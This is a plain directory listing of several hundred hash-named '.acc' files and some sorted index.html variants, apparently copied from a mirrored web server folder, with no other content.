 11c1ad9b01c6654be1d995a09a9f2f3b.acc   3f922da04764d314d9ad4ec29bd24ab7.acc   74a61a46248d4caa926e1938aecc6534.acc   ac6d61e69c240fe11d6ca4b6acc35aff.acc   e5d105066394c76b47ef9b0c13d1e702.acc
 120456185fa840aad81c6ea38b9f70d7.acc   3fc4b2d139b8ecbb0bec75345aeac132.acc   74dfe9c8d9defeac563057852db6c94d.acc   acb4ccb8eeb778b614a993e7c3199e5b.acc   e5e37effa0bbb08e71244ea3fdbf135a.acc
 124a5db27699c0e2a3480a7c091bc128.acc   3ff2509d974c2f4e36d87dcc7048b4d8.acc   74fe6e35b2588a89adfd936a8b458a53.acc   ad16aa80831b4fba1439ac9e5f0103c2.acc   e65e4788185b3d1ba4de7cdcd3f3a5e2.acc
 12c2d8fb0ed8df68972e2fe4dc5b4609.acc   401c55932f8f4fbc27765e3b5dea3358.acc   756431ad587f462168df5064b3b829a8.acc   ad363144b53172d66bd24dfa575d4915.acc   e729ba75c2e61d75052983668155a494.acc
 12e8afda9f95bb015ffa5c1ef3d503d0.acc   409a24500afa25affba8dab727925942.acc   758b39c317821013b180ae057bc16d83.acc   ad4704e9fd044a6961dc222624127732.acc   e7ceb9e11adb90e143e236cba4699893.acc
 12eb6b074fcf0adfcf0274fbf0947edb.acc   40e87fd7e03b66cbc81f8212c842d851.acc   75942bd27ec22afd9bdc8826cc454c75.acc   ad4bd9527fb35490c3c8a2be078c2b3d.acc   e874f65408cc3005163954b8b31ffeb9.acc
 1308cb859a75a2b66d72b3a36ce87ace.acc   412c6df90bfa3a0d05fd7d8ab790d376.acc   76123b5b589514bc2cb1c6adfb937d13.acc   ad608d995d60e704cb2f8bb0c9c8e526.acc   e876afc6545d55e0d1297fcd95b0d334.acc
 13394b7bf1e2ffb15c94045398826b52.acc   415e625085a1dcba383d97d16e9b2447.acc   779a7750a1723d388731bc20c6b05b35.acc   ad7cc6e79ce56c437a13246ed6c4d5f8.acc   e9006b9e02ca5e2f64b4a6c1b88a6174.acc
 1385939e3f7c5d728fbb1a665e5fe26a.acc   4176c547af366f716c6ae37755304425.acc   77e580bfc95b1c0a89fe3b886dd961f9.acc   ae364452981dad5efa2bed11f58b67ec.acc   e90fc06918e95e2d0f4a32ea178f6f85.acc
 13b790b817ceda1763f695cb4b1151b8.acc   41bc81ccd65b5ae21f181bcdc60a6c62.acc   7804840b63cad3132d2a222818e34766.acc   ae61679e003671db4ef71b3e08e51c6d.acc   e96eb0496f9f3f2187a91d47cc789c5e.acc
 13c0e6b11cf2b1525d38143037cdcd51.acc   42261debb6bdfc4d709d424616bc18cc.acc   780a84585b62356360a9495d9ff3a485.acc   ae7f70db2c5682cf9d232915fbe5120c.acc   e9c21e21078cca67470688fd9750e35b.acc
 13d91ebcbb1af4df0bf8a82fd3a71476.acc   4273dec45222434c96a4ebae56a3c840.acc   784e81b0f924ffc73318724185f5ba0c.acc   aeaa050edd55f9acfdebbc6ec4565e06.acc   ea664b6fac225604ad4a76956a84de4b.acc
 141d68e343b77ac020de3087e3efbf3e.acc   42c5d406ee86e917bcf4cd83d254534b.acc   78a312e0b1ac485db1b5a00393f55994.acc   aed357b751b161f2baa30f1a6ffa94d8.acc   eb439f0ed2edd4a1ca186ef9c868c547.acc
 1458d8c0b03eb55944f3928fe45c66d8.acc   430547d637347d0da78509b774bb9fdf.acc   78e242e6d759c6e35520071b33f00e97.acc   af03037070ba16f49629e8fceae67101.acc   eb4d3f88032008b4c9e25b0c5410279d.acc
 146e50a62df35e5cc05f0e644f1b4c87.acc   43c8b7a50ddfde5aa5fc736406c72423.acc   797e1abe1c99424aa7856f6c9f136cfc.acc   af506ba8430038b4c446610b7afeca02.acc   eb6069bbcc072e4748cc76e564634cb3.acc
 146e61f82b0174bf416c2cc895e27136.acc   43cb4089654f49c1894024af1d79239c.acc   79b96225cc4705c9d7f4630f1482b6da.acc   b086c5383d5ba5f9fe55bcf2879d4494.acc   eb9062859001f9d14e9d2aab827f27f6.acc
 14e30bd14c29ccd86b16115784f405f5.acc   4402cb07ed0509855526702a4ece80f7.acc   79d260a20a4bd04419979fddfbb490aa.acc   b0ffc7ada9b79d0b507d99b67a3260f6.acc   ebb023e25c2d0714109c21850d514234.acc
 151b3d396f2e1f6f9bafd75e37fe90f8.acc   4476ecd1835548a4ffcb4de3feb21035.acc   79f06acb23f58e97899738c1b32e0968.acc   b117c5fddba8530b339c9a8da696ff0c.acc   ebdf24181447b673a3bd7b10867cf8d3.acc
 1557e069780d9eac7f88a6e10e7cd90b.acc   44987d36fe627d12501b25116c242318.acc   7a16f1be3e1cce885b855e888d413617.acc   b155ec440c9934e68335882bf9bc87a4.acc   ec1499b623c132d074c2d81071fedc51.acc
 15a9158ee078d8a058736267caf8b910.acc   45028a24c0a30864f94db632bca0a351.acc   7a2a9752443f4328dbb9a5f4431b1f94.acc   b165bbdb365c838e73b1a2d667b6fccf.acc   ec4b903ebc21e5d0174d299a785b23d0.acc
 15baa7e6a3b477fc3d6b9567d2a71c56.acc   450c1b14e8b20b29b1fe9bc23b1f2878.acc   7a3062ecd98719e7faac95a4efe188ee.acc   b1732eb5066d19f0d4f2e4a2173b51d0.acc   ec57cda985748265567eb5ce65cb6ead.acc
 15f5a217c839e4f6ef0cc46dc01e494c.acc   453500e8ebb7e50f098068d998db0090.acc   7a323fcd47afe7cc6248f2fe6e4f8802.acc   b1a06fa15fea8df052eb0efda06239fc.acc   ec60ca862555223fa6d3407485665ae1.acc
 1634428ff1f73afb7db9df3e21a99b54.acc   4586e7414d7567f91f965d8eb2647a6e.acc   7a6c81c0e6780f912586590a9bb3d4e9.acc   b1ab8c16c5300a1fc00907310fe6498d.acc   ecf30d100c09f82894def7e49bbde2c8.acc
 164c1839f2d21dd77bff5a7933087f4b.acc   45c816e15e480fef2ca867297921cae1.acc   7a747011ee218e9e45365c3169a24754.acc   b2007795fd0d31d65ec16d2cc03b62e2.acc   ed64d19c83fa8a673b9613f18d072095.acc
 16a2ff45c69de2df023ca9dfb2ce12bf.acc   45fad7b2ebd71ee55663f9d4c25d1cb6.acc   7a7a849d65b57600abea91bb986bdee6.acc   b2379715823c2d101d66b2b750d7729c.acc   ed78f0a148d4320566e799bc2b9bd6a9.acc
 17115b9167f94b0fc8de6a075f7a7c3c.acc   46fcd5bef075246c7d2fd444b41745cb.acc   7aaeca9d4bb6725b0616597a393a3d7d.acc   b244aedf4f40a73e2ba94ca019c11765.acc   ed7bb2476880c9f74fc6c84e9bae3d12.acc
 172bf2c0394fce86f60e75170afc8f9f.acc   47171c38422e049e50532e6606fa932d.acc   7ad216b66bbc8be33e71e9b75b974398.acc   b25d37c6adaa929438e2906e99c9bf10.acc   ed8949614be8827cfcc3641f7cf6d84d.acc
 17d462006481467102be11a86832691d.acc   4720f8f57866d9631d8d310093883175.acc   7af56b5821f745df33ba3a5fb0dd7009.acc   b25f88734c195eac61678d0c1f9eaa4a.acc   ee0e53c02d3af32a41b0b0db18110a71.acc
 18bf04910a0623a4c2d6287341b53ddb.acc   476845627ec5658e15864a7766fea705.acc   7b38a14ce39bdd4b91eb69ec02a81f84.acc   b2b92a76037f5cedcbddb2cf8922b584.acc   ee55be0f23fd34553071bf41289545e7.acc
 194f2b25230c4cfcb7c2092a006502cd.acc   476e02d55e6e34295af15309d47acc49.acc   7b7cc0505cee71ab02c533fd2db29cde.acc   b2d9f5c9658426b86efd70046ee8471d.acc   ee9f97e5d90be90ee1cbdff5587cce31.acc
 1967bd76aaafed760132a851a3d7c8d6.acc   47a5b5d54b15c594b0d41ce20c8fb113.acc   7bd2b3a05795e2d216cac59bb405f079.acc   b2ec2c2d39477ab81eb74f185699e945.acc   eeac7e1e3b5c37b8b41210f2f3565b83.acc
 198007304d3f3413936f9634ff44573b.acc   482e09bc32d62b29b51c9d21a173ec14.acc   7bee4f51ff23066e9e909ac84873e9c6.acc   b2f462e0cef4ceac9341cd6ff3e0ed83.acc   eed2a0d81e1c8014dcff0f1e2e4aa549.acc
 19f06120f156391687ba9625de702836.acc   486d802595c5498539495b30b658a974.acc   7c92466f303a24f50b2880870dea0610.acc   b30aff7167e8f8b78dcb22feca8754ad.acc   eee184159db774335325d1a3df5a8bbf.acc
 1a419fd7740a76ba3124528ff0419624.acc   48b68e11c3d8416e5db820f8dce9a1cc.acc   7c935e676daa9216ac53412b7a47c1f1.acc   b36b55a6b85410da8098d183b46e9814.acc   ef7d353ab64ce2f8649a2fe2e044d00a.acc
 1abdae025e433fb00a8c684a853c191a.acc   48d9698c1ebba40ba8c4c3bccd69c061.acc   7cc381a31b1252eb63067fef61319152.acc   b3fa7845a431dcab7cac67fcfc6dd728.acc   ef8acec46fe90bacf21119059ee61db0.acc
 1ac6533f614e99cb74d2aaf00cd1b1e5.acc   49206d1e18aa8eb1c64dae4741639b2f.acc   7ceed45c2f5a9b3d39155cc8099b1d4a.acc   b4006524aae0d82ce9ad65a8991e81b3.acc   efada3bec9954bac04fe2778a974c9a0.acc
 1ae934f62a8e5dce095c4f5da019ce0f.acc   498f1ae1b09e6efbbd19097cdef6cc86.acc   7d759940684fb5fdf8bb7c0749ca302f.acc   b4549c66b6529d2d366b0065722b4fab.acc   efeb37c425e65acb60949b18d432327d.acc
 1b6c33d239e59dc15e93559b7ee62475.acc   4996ea3ca285adb12a03d3dd8cbb4ad0.acc   7d7dff306be634f864e92a6b038dea8b.acc   b461cb6730908268d5731c4d30696f23.acc   f09e4569207c33820d2be5ccb98a1879.acc
 1b7486f714169cae6ee7e61b8bf775c5.acc   49ddeb6b6e65ce0c4fd7ac9d174e611d.acc   7d882d79b353d4329ec6f61fdaf4dbfd.acc   b4ed8dcdfcbc03a4f383956db555f674.acc   f0f1ee68fd1851d3174be51c80598aae.acc
 1bc66277954f4d50b50a831df74bdf65.acc   4a41cda86cb132771f2e51e480364173.acc   7dc9403b60d10a21d8f44bf9948095dc.acc   b515f74731640dc9c2bcc5fbb155f0e2.acc   f0f4ce2ed7613415ccf81b274f76ad1e.acc
 1bd2ad5271b2ca76af9dd5d7f68425f3.acc   4a66b3ce8466bf011adb1dd9d1814452.acc   7dd19db14bcaff9c2ab24ceef3217014.acc   b51b74fb4d0fffb13588c438327eb18f.acc   f0f8ea272f091256230e5cbab19a951f.acc
 1bd6e15ea2cb7a17782a9287c76023e0.acc   4abf8c9aa0f414abd9bfe187b72461e3.acc   7dece92a80bd61d390d0589b118234d1.acc   b54969a641bfeeb6a9daaf76b42bb629.acc   f125d4527679f54ac91915ace260e1bb.acc
 1c3289e8d28be50af870b160732314c9.acc   4ae6ee6e14e6de520567c8c82b6beded.acc   7df22b5113da890e88705dde5b8a9871.acc   b59e8e4197ddedcafa629a4015a652a5.acc   f16338fa71b5d1b2490f38a38496a2a3.acc
 1cb73099b330049d199326b5e6148510.acc   4b00b1be8ef8c5f73901e50d4d09470f.acc   7e16990ea08e7d261645c60447ae412f.acc   b5dd07106c1b691c055f717c6267768a.acc   f17b615f6ca6e6d0187d580c5d7bba6b.acc
 1cbcd839823f160b914752703a22567e.acc   4bc7b8db43830d6a4957836dc18bf34b.acc   7e4cf8e1c1950a8e1da8e937901ff657.acc   b5fc8035406f2583cea97f92461bbcb0.acc   f199c163d1bc548b847a6fe85548035d.acc
 1cc7ceed882e806f92df160337e1cef6.acc   4bf0266486768e0fdcd383973f08227e.acc   7e65bc0bdba7609f0fb85f5411e79163.acc   b65b6105d8c1b7732bc0cbe395e5ff2d.acc   f1baba483e8af22c333d241d44b03af7.acc
 1d9ec4f06b0b4f89bab1b559260108c6.acc   4c13d888bd3ac3c2b1e84b50bf35a85a.acc   7e8730a34c228f96819155f5f29eeeb9.acc   b6991119b60d52b191a97156374ec497.acc   f1fd45aaa2e9ebef30a2150276fa8c59.acc
 1dd7e55cc130a4b6ea8ce6cb6d7564f5.acc   4c6dafa3f684f42869b718b251b292eb.acc   7ee435673a9a537131903ce74fe908f7.acc   b7640c209018067b376ae0832f66ebed.acc   f22de8ab72b1fb0fc43eed85368b984b.acc
 1dfea613df52206550c8a254baae5bc6.acc   4cad3a11b7963ebfc70f703dd4811b96.acc   7f44276326c185b7e8bf1cb2ae0c02e3.acc   b7778d5081f949cedbb609c1792d376e.acc   f283190eb6180e1a5e27983e1ff63289.acc
 1e32e4e412da54833e813bff5c8beb5d.acc   4cf44a4d89128da4127db0bec1048c51.acc   7f4d9c6e8a185bd54a2bb3266b239f35.acc   b819d8a2eb68f65c47355b20fa1e3a42.acc   f2bfb6c3f7cbf65176e39105767b5fb7.acc
 1e4e8f4b7afc6067e531f5bde60d94fd.acc   4cfb2d50597e6ed2f74334d218e5d8d6.acc   80416d8aaea6d6cf3dcec95780fda17d.acc   b81a80f9bb4b1a04afa7097e23cbc76a.acc   f2cd9d9d2d57a8c9e97e427de36ced76.acc
 1e5e07a4a277061fe97106f08ff478de.acc   4d083a8cf8154cd657341344580196a0.acc   805c369e5114713021dbb49b374845c1.acc   b85e39b33781a6d660ee25286c3ab5db.acc   f2d6fc8ebdb1e9bb6874673419e0e870.acc
 1e6784a6a1f6ca5030db8856cc512eb9.acc   4d183c48bf0e826fe9f0248a2bd0ce1f.acc   8087166ea0cbc15e43de374cc4179424.acc   b8978edfe1f1e84b9157d147adb4a7b3.acc   f2d744aa3a27be76565cb900db0039f0.acc
 1e98bdb0f10109ed73058fba9c5c1752.acc   4d6d527e8e87c5c6edcd5e189688e377.acc   80d73c3bbdc077edb98daec9ff26d933.acc   b8e7b4cf45d8182f69a43dfea4c15007.acc   f393628766266e2325b9d665ff375314.acc
 1ec19e69fed7d847bb7566f19e8f4050.acc   4d7a9044e957b9cb0dffd2f7369667ec.acc   8116eebed5657173e44eac5f834c6dd7.acc   b91c776e5fc8ac78ef2b7ac7985c12e7.acc   f3a0d4846c351a4c092c5c2d639e26ae.acc
 1f4289c9c2d6999e9fd97bfe81a02ffc.acc   4e4d7e09dc5de2768b2f670616457f73.acc   823e6084e33c3cbf609bcb946fbb5098.acc   b987c7121ca99f686fad591cd517c96a.acc   f4475acf00fd37263c0e1d67dfe79393.acc
 1f83271fd1c62b4714abc3a00327b4e7.acc   4e7da1c5f107c306f55bee851108c402.acc   828bceeca877d2c73e5836d11e1d832b.acc   ba0c98a6b1b39df7395fbe53bb3d9416.acc   f456824eeebf1248ab0b21710eb7cd0c.acc
 1fe096b278f292f3ae68280d7ffac179.acc   4ebcb090a219d941e56c032cdac43669.acc   82c22539af6f7d928133b7b1f8abeeec.acc   ba39ecb7f9e7c8ad01242ee2abfec51f.acc   f497a39d8a83ef18916f40e4bd2c0ead.acc
 20207ac92b72028c5b4abeb7287280ed.acc   4ec2f8f0fb700e23fad05ee516540326.acc   82c3d67857c36d3f97535a6d211272e3.acc   ba3f33ae83f835337fc89c330c8c0b0b.acc   f4af6b16beb3dbb6468ecf0c959bd090.acc
 2045012eb38d171e1e24ba7ddc6fd11b.acc   4f1371b82592d1c8f92b91cf32509e5d.acc   8417fa43902ff7f26fb4cf87f0d428a1.acc   ba4fb7e7c14fba8f12044868d0a2fb58.acc   f4d4370f5f710441f928fbbc1493bb84.acc
 20762f2c75a18c8a0911495214989878.acc   4f2ef432bf1238f085d4a4e519a1dfff.acc   844cebf2af0bfdde679e8e72d2337717.acc   bb34a1ff313f2f6c04f276bc796972a1.acc   f507318a91772b5bb04e2c4fcdf4b896.acc
 20a2ec5aacbead218c3d170237debf5e.acc   4f413171a5b4e0b82fd0a14edefcb175.acc   845b82de5081018fcbbd55e63cbd04c9.acc   bc1d7f1ae59272da503d8400021f1922.acc   f510f991d80a817405fdea6aeefa0c5a.acc
 20b2090845b0563afc69c4e7fec1e497.acc   4f61cf16aa405cbd9562831b725166f3.acc   848e888aa97a6370a04b077d7de5a565.acc   bc77e74af430c6c199676bd28a7239db.acc   f533a1c44df699fdbb0835050f71cd1a.acc
 20c7d56557313b26a07a08c4634634ca.acc   500b7e7e925fc1810c0081f49f9878aa.acc   84cf9f79d28237d50c98ba165b000bab.acc   bc79ed4105fa30d652540f01aefa1b86.acc   f54e2b927d8fa8788744c6009d2a45ef.acc
 20f4f2fa9b091725330e1b98c3d0edb3.acc   500f59a56cf27362df6df66852574348.acc   84d39f534a1a7ce6f151c0a6d5c1e6c3.acc   bc86f3b2b74796989a2607e0c0c0d785.acc   f5affad2f51f9413416019913e509be2.acc
 20fd5f9690efca3dc465097376b31dd6.acc   50276beac1f014b64b19dbd0e7c6bb1a.acc   84f283b21104e9172dbf083a86cb1da9.acc   bc8f563356a47ba542004438ad25cfe1.acc   f5c8f951cc3aa1d66430e3dbf1027039.acc
 21c74f96797dbd154c54873c557f872d.acc   508c160d0792912147bfb2f29b2bb136.acc   84f8b63a767058af39d96477fa557487.acc   bc9767541db7363d22bd389262891376.acc   f6607b35d03c6ee905e831c4a00af2c0.acc
 21d5e879ab9135cbc4f54bfb4a12dfa8.acc   50de687c0d3e1925c2e3e96b2a08b664.acc   85006f1266226e84efb919908d5f8333.acc   bd19ed634fca546c3a1ba5839cb38108.acc   f6748d363aff0cc8c7beaa04f1b2ab7e.acc
 21efa62f7f2e77c1993fb67c69abae22.acc   51e3753a2abd98a29f5344424b8a3db3.acc   8554f463517b7f7f70c2e0a8b3e72b64.acc   bd5a6de2559b3b47989f6ed359df4b31.acc   f676c085d2f8e218fc4272c348896c08.acc
 21f29d019d2dbda1620ba49978d6c6ca.acc   51e6542018c82a48cfe15db8954fbda8.acc   855b1ce8edf8b2e059444b290b678210.acc   bd6296924dc801f8c8a4cb8a21cacb6c.acc   f77b61daae19f1fdf0331ae62d11b48f.acc
 21f35deb6f99be95782b7d978d1bb66f.acc   5247cc2759787a72747c4376a88356e8.acc   8578a01a81a21685c098b08d4a3514a0.acc   bd8201d9d272abc25ea846ba4f9ce151.acc   f77b874da650efaa92c5c6a292bbba35.acc
 221c5aa7f92fd53c68f85ba73f8935be.acc   52a6f94974c07bd49cd9dc9f89501751.acc   858a0d9ead484a5452940683dfe75356.acc   be68d0020eb8ca72d751561bfd379e0c.acc   f77e102769baf3c03c855cef0f9f41de.acc
 229b603e25630350619dc9b86a749c38.acc   530cd80ef0fc59616c7eeed85c147bf4.acc   858d42e024586e34cf961bcd8c52fc26.acc   bf1db217197a8ca98e78546d06de0a78.acc   f7d83ce903d4c505552533c269c22778.acc
 22c46b9ad0990cf7a73fad02a7731184.acc   5313f2c7094ceabfc44a02f61643be18.acc   85e9087a32f5f9ccf8eab9fe2acf9e7d.acc   bf263d614541baaaa541101f86af47b7.acc   f8020700b091366a5e1343b5c0020f9d.acc
 22fb78ab39db7a6c496838f594e377b6.acc   539fbd47a23717ee6a38e540e23e3c3b.acc   860826651b3c5c5f11cbc9985b9c53e0.acc   bf97c1b37423d4d65a57dc14979310f3.acc   f81c0e2e2ac1dc3c497421d901b05da3.acc
 235f306703512e4e178edbfd427eb860.acc   53a7aa18611c1cf6bb13eccd34c8d2f9.acc   86afd07fd9b3e161d4110a05efbc4567.acc   bfb8e73959a976e5abb32354299d919d.acc   f85f26eaa265dd6dbdc8c29061323bf9.acc
 23e1d6517c1a96557eb394a7969ec811.acc   53ee88051634f75d532271d10de0cc06.acc   86d458e4636c5aaac4985f7521ee6639.acc   bfcf10c3db55bd6e8ee1fb1d1e1db80c.acc   f8875be5e4ee006df2228b3ff0a7bd68.acc
 245131960374afdfd3af75590d81ffad.acc   544e693182b1b4ffab54bc0bdd1f216c.acc   874792fab530aed50b38b26f2a8c1870.acc   bff19337b2e4e2a93e29e98bd931dd19.acc   f8f633fdff1ef33d238851f264bade56.acc
 24618f7079b4f5956459c1a10abbba14.acc   54656a84fec49d5da07f25ee36b298bd.acc   87831b753b8530fddc74e73ca8515a50.acc   c0449dc4695da9107356b7081eeaf548.acc   f9270f8014a481617dbac28aa5ec7450.acc
 254770162ed5902fbbaf2460e91bebb5.acc   5492f0f786cc84fb1aee7bc3b17d0d4f.acc   879f0957ad3ed3f46f2bef382fcde256.acc   c1700a7bfe673062732771b823b0cd7b.acc   f94b9157b5e291720bb13d62b9a9623f.acc
 254c4a868ba0612edca14c19af07e30f.acc   5512bf5534e85f5365db45183a714a26.acc   87a3209fc8d2d8ebe98e40bac4ce78f0.acc   c19e88c3bb036819aa5b28cbdf9cfe27.acc   f94dcf255199d565fc997fc6a91beed8.acc
 25ad3803118518c540b30e066e9f7a03.acc   556c5bd821268a5bf9b26de19c644e8d.acc   87b0476d46f9b5bf71be14e4447e0ec1.acc   c1e9c51654c980547d41a4e6b89a279e.acc   f9851c2e450f13261e020fcf7f0ed180.acc
 25ca010ecbb68e63f8f6e4df2dbc7a0a.acc   55fef9f64a6faf3ada69a9ae9d098017.acc   87def2435b8b7dfbc1cb90e594b48a4c.acc   c27e3b09f45c2e92b2d85f8ba84c2894.acc   f9c2c34471cfeb316881a2d97fa79c52.acc
 25f38959dbf273accce1ca8957c69dd0.acc   56215edb6917e27802904037da00a977.acc   87f2fd14ae5dd0b04fbf96d8e6768283.acc   c4442fa5d035928e507c1b7a3d58abc3.acc   f9d12910695a055494dc254902131e12.acc
 26678f1b6310e7619a2a39f4301fdeb1.acc   563738597d410751acc3378aec0e860d.acc   884f78f576290e70b234f68cc2b75565.acc   c5132ddff0d5dcb77af4ec902e3c34a7.acc   fa06f9a8d4672d4d739a99f310b3add0.acc
 267ed1121ea6c0c9e2551620b10be6c9.acc   56bca21e1e398d9e4ed8d35fcdd21312.acc   889298fbc7c3ed6d6487da1b725a3d06.acc   c5664a8536412a94d5b109580070bd1c.acc   fa34e37fb9b5153d44e8422b2ed95338.acc
 26ba609dea7477bcb7a17b0912ff0ab4.acc   56c314ff214498c70201785261a86e8b.acc   8915138a77e6474ae29f6b06e109b7ff.acc   c58e81ac3538ce7bfdf724829e91cc1b.acc   fa4bf29c22b6e479c6c315ea15557ca2.acc
 26ca8b69c7a1d37af08ede635b38ac25.acc   56cf080080911de15d63db43a7c3c659.acc   897ffb89e0066d9cbb92666cd2e92960.acc   c59de74625806c5e1c0c76a2c744a57e.acc   faba62033042fee10008e7cd3790ba2e.acc
 2744c3aa5ea3c1e0c43ba0b07e6d7ab7.acc   5703d0a083181849782ad1bbda821404.acc   8a0c42c20d3cc111e294dd14d523b149.acc   c5fbe301fd23271c5587af536c490d4d.acc   fabfd4cd599ac63c5699f456f2cf448e.acc
 279e838eea41bd10c7d57738361fba64.acc   57aba757c2e288d93ebedeb80b7c0319.acc   8a2b4b1782cbd4660ce40085d31317b7.acc   c610afd0caaedeab71cac5163f952e5f.acc   fb3cb6734c832b14987f002c2dadae19.acc
 281a248eac5b77324ea4b0871ad071ce.acc   57e99d6f54ecdce53adcdd0efe8d00b0.acc   8b91eedc4a7f3fa84360dca78e2ab618.acc   c699054ac57388bc81a86e173a40380d.acc   fb42d07220a996307df38ec7e6189b4c.acc
 2839c1573b4e3e405f28b8e975d3f04a.acc   5814e18d74c311e709cab1ef69cb7b7e.acc   8c5bc636a713df10a0b267dbdce15396.acc   c6f3ea4d0d9050cdd89b3465cde1091c.acc   fb5a9d6ac0d2c781dffd73c470f23fe0.acc
 28803c906e088ad88ec06e251c37db91.acc   581e4dfc04729f53cb5b461a26b43175.acc   8c92082936170befc74bde36ed0507c8.acc   c79000bbef5faef919233d06186a9460.acc   fb73bed60d6dd4559860ea5f7f2f5a3c.acc
 2891c5f2cfce57c5d7ce5eb17711ad1e.acc   5865c9a855bbc327b8a2fc6db3d86917.acc   8cd768d35008b86c017e341aa4b0bce8.acc   c7c1aeb5d6174d9971083d5b0cc42d4d.acc   fb891061321669dd0ef9d5114d476f3a.acc
 28ae5f87693c37f5b43b93d6dcb192af.acc   587ca22ea47c6fb4c603e929d0456520.acc   8ce4aa658a58f13de583838f62ddc5ca.acc   c7e5018a4f1def3f9bb7e5845cef8520.acc   fbcbbd213f0a3e88ee84eea9a9d01b90.acc
 28c5858b4c1f3f5272b505af792a131a.acc   58a69d5d011af16b12f0a81107be3d24.acc   8cedbedfff70a3528fbebfee0fe0c4a3.acc   c7eafce7ea1402a837a2876a4df6363c.acc   fc6cdd24cf81d66d12c97aa97a37fe33.acc
 290af0ac02bd7a0aefa440273a797520.acc   58e21d4294200a2754f190cd15b4cc27.acc   8cf431f4c9ed8b09aeaa97b6da4eac57.acc   c809073b951d81730735cbddc4b05b4c.acc   fc73548dc690c238c5aff9cb9e440498.acc
 2928dcb8005fec74d484f4a44d55866a.acc   58e63112be4258f4568ef480ef47da5b.acc   8cfb0967df2394db4375ccc542fe2618.acc   c86c13570b69c871145b9ee78c82cf1c.acc   fc87e5f87f8d7a8eedc4ee85b5b1c58e.acc
 2940290175b241c7fcf89c2abbfbfdfc.acc   59829e0910101366d704a85f11cfdd15.acc   8d33eab2dc9fb1ba85fcbb9db580eb5f.acc   c88e9ce208f7a014f699c20e897c168d.acc   fcb78e263fc7d6e296494e5be897a394.acc
 2946c98cb4e7da90b97c8a46f381e55f.acc   59ce6c145b9ddfc95f0bed4baa6f9197.acc   8e6493afb68626079c3a153ecc2bc532.acc   c9aa1ec05c4655ff245a6cbf91987b9e.acc   fdce9437d341e154702af5863bc247a8.acc
 29ab3224af5d2955eb9f6f9604b09b47.acc   59fa74f31a724ab1383360e255a0e711.acc   8e99440294d984f80beb6d5d9aa95637.acc   ca7050d298b7ed8426eeb5dd8fcfacda.acc   fe426e8d4c7453a99ef7cd99cf72ac03.acc
 29ca4e8271e92fd18972da499d83faa9.acc   5a06163947bacb35937b94976524b9e9.acc   8ef95b6bd6c84e5ea7b1c0c765f9e7b8.acc   caa00c3f2217fdc59be9764e1167ca39.acc   fe85ff58d546f676f0acd7558e19d6ce.acc
 29cb0f36e1b09fafd64dfc475cd154ee.acc   5a62c5fb945007bed47e6e4c114d3be7.acc   8f00e7f326d98a8f40b0db62a55c01d5.acc   cb27ba5c7f50f33d3808eeccfe1c7271.acc   fe8a8b0081b6d606d6e85501064f1cc4.acc
 29cf9851f990721b4078930a52371855.acc   5a6f81da012f11f463df711758a7d98c.acc   905fe459c1ae841af1138abf7a49a960.acc   cb2da876273338ead9c35ca591d1a74f.acc   fe9ffc658690f0452cd08ab6775e62da.acc
 29e6bb8c09665df95fbf0c8ff5e184fd.acc   5a8ca8184c7d197a07716f3b239f5f30.acc   911be9d5ece260e1789c21cc8997bbe9.acc   cbeed458cd121a5a971a2578ff6a3a95.acc   feac7aa0f309d8c6fa2ff2f624d2914b.acc
 29ee355c82a4bbe25787fc0b4d96dd45.acc   5a92190fa06db59ca8d12f761ef5df66.acc   91249b887c7bf3f6cb7becc0c0ab8ddd.acc   cc4b31bcc18c5883483f418ace7032cb.acc   fed62d2afc2793ac001a36f0092977d7.acc
 2a0267dc11bdb1d6853b08335e9f030d.acc   5b275de0f3930d538d41d38012f9f99f.acc   916462152b12cacd3b7a982c8fd1206b.acc   cc66fd1344a67960d78071e553f5325a.acc   fedae4fd371fa7d7d4ba5c772e84d726.acc
 2a3d905e1abcf6d728dbb6f33e3b3093.acc   5b2fd16a5027dca9714596e1f1900ee1.acc   916da122c11e2e240be7647d3943ac6b.acc   cccc89d995cb744980230163ff4bc2b7.acc   ff39f4cf429a1daf5958998a7899f3ec.acc
 2a87311fdee4da24b126bd114058b9e0.acc   5bc9e0468db90310e045ee1cef02ae49.acc   91ac85b6679b679cfcaec44e9e91db0f.acc   cd0601603157ea5959e9920ce184a131.acc   ff8a6012cf9c0b6e5957c2cc32edd0bf.acc
 2acb388eebe1c2206052ac5ec3bd6edc.acc   5be15dbd24aa31b6de43c69234a72c19.acc   91f56bdaaf319e141d7784413028d0fd.acc   cd247bc40733ce4e2acad1fa1d55581c.acc   ffc3cab8b54397a12ca83d7322c016d4.acc
 2b132b6e7781da0ff92bcc4a186e7173.acc   5be5196a9bfbf55be5322576b6cf2ec0.acc   922bb20268e664d4571a234836f68b7e.acc   cd77ee6d8342e1c28b6ca56662319f09.acc   ffdfb3dbd8a9947b21f79ad52c6ce455.acc
 2b3be36d865a5a40250942b5c8f54dbf.acc   5c7fe7fa7cde31ec7f6460dcc866b2c5.acc   92579940417f9ae8d23f3274830ceeaa.acc   cde3efebc24ac5d927642eb91c120a0a.acc   index.html
 2bf7e04143696925b74ff2d58e48bb43.acc   5ccfc5c5060c6f7eaebc7b360bf1fb5c.acc   925a13e731e148e32a024d57905883cf.acc   ce11ae5a941985ee4365cfd8027a505b.acc  'index.html?C=D;O=A'
 2c07b69f32dbd283b47b524edb0053ba.acc   5cf5a255a6ac6c51fce18b20de1fc6c3.acc   9281c329f634b4b2cd88a6defcb7bd86.acc   ce1c2ba769fbecf151783412d27b8f57.acc  'index.html?C=D;O=D'
 2c2fed06d94f69685882dac0d9ce9cc8.acc   5d20c77d44fa9054a4822b2cc42aaf6a.acc   941e55bed0cb8052e7015e7133a5b9c7.acc   ce761813354f67a658f53c621777bd84.acc  'index.html?C=M;O=A'
 2c46469b9fac25ad81268c1d2998cdd6.acc   5d364c970049e9a1ddeab46685ee95c2.acc   94290d34dec7593ce7c5632150a063d2.acc   ce7a7abb6f1d6b0fef7e6528840f9215.acc  'index.html?C=M;O=D'
 2c51591fcbda7b91ca9f56b586f3ca55.acc   5da2cf0551e5d9a82e264b842e2fef39.acc   9485920a1460f5b8a5ce891e19c321a1.acc   cf011a47599e848a6be54aa867f37ec8.acc  'index.html?C=N;O=A'
 2c5b01899d473f77962df31812601294.acc   5dcd2d4cc2f5ebf971da7b9577313fc6.acc   94b434c6fe64eb8f08f50bbcc4f4fb57.acc   cf17562e769f00fa2d4c9b06002ff565.acc  'index.html?C=N;O=D'
 2c7701c77068b9ca7244626133c2ec8d.acc   5dde5175da535b073504fa6222da07af.acc   958753e5d8c5896a5570dd1fba2c2f11.acc   cf436be4e3d4d42361e1634e2fe7ffc3.acc  'index.html?C=S;O=A'
